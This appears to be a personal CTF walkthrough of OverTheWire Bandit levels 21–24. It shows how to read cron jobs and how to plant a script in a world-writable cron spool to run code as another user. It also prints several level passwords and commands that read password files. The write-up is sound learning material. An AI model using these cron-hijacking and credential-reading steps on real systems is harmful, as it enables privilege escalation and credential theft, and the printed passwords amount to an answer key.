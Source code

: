## Level 21 --> 22

- Given: *A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.*
- Info: Read `man 5 crontab`
- SSH in as usual
- `ls -al /etc/cron.d`
- Ran `cat` on various files just to see what they all look quickly
- The primary `cronjob_<username>` files are running scripts from `/usr/bin/` such as `/usr/bin/cronjob_<username>.sh`
- `cat /usr/bin/cronjob_bandit22.sh` (the only readable cron script in this directory)
```bash
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
  - `cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv` -> `tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q`

## Level 22 --> 23

- Given: *A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.*
- SSH in as usual
- `cat /etc/cron.d/cronjob_bandit23`
- `cat /usr/bin/cronjob_bandit23.sh`
- Hardcoding `bandit23` in place of `$(whoami)`: `cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)` -> `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

## Level 23 --> 24

- NOTE: This is one of those that I think I will be able to provide a much better solution for the next time around.
- NOTE: Lots of copy-paste in documenting this one. There's bound to be some inaccuracies.
- Given: *A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.*
- SSH in as usual
- `bandit24`'s scripts directory (`/var/spool/bandit24/foo/`; containing scripts to be executed and deleted by their cronjob script) appears misconfigured to allow non-owner and non-group write and execute permissions (determined via `ls -l /var/spool/bandit24/`). We will exploit this.
  - `mktemp -d /tmp/XXX` (create a working directory for ourselves)
  - Create a script (`/tmp/XXX/b23`) that we will write (copy) to `bandit24`'s scripts directory, which we know we can do because it is writable
```bash
#!/bin/bash
echo $(find) > /tmp/XXX/b23out.txt
```
  - `cp /tmp/XXX/b23 /var/spool/bandit24/foo/`
  - Wait for our script to be executed by `bandit24`'s cronjob script
  - Once executed (and automatically deleted), our script lists all other files in the directory that were just present when it was executed
  - NOTE: I wonder if we can use `netcat` or something to see if we can run commands as `bandit24`
  - Let's see if we can find any interesting text from the files we were able to find: `for file in $(cat /tmp/0Zr.txt); do echo ---------------$file; cat /var/spool/bandit24/foo/$file; done`
    - I spot this rather interesting line toward the end of the output: `echo | cat /etc/bandit_pass/bandit24 >> /tmp/pw` coming from `/var/spool/bandit24/foo/102983scfec/myscript.sh`
    - `cat /var/spool/bandit24/foo/102983scfec/myscript.sh` -> `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`
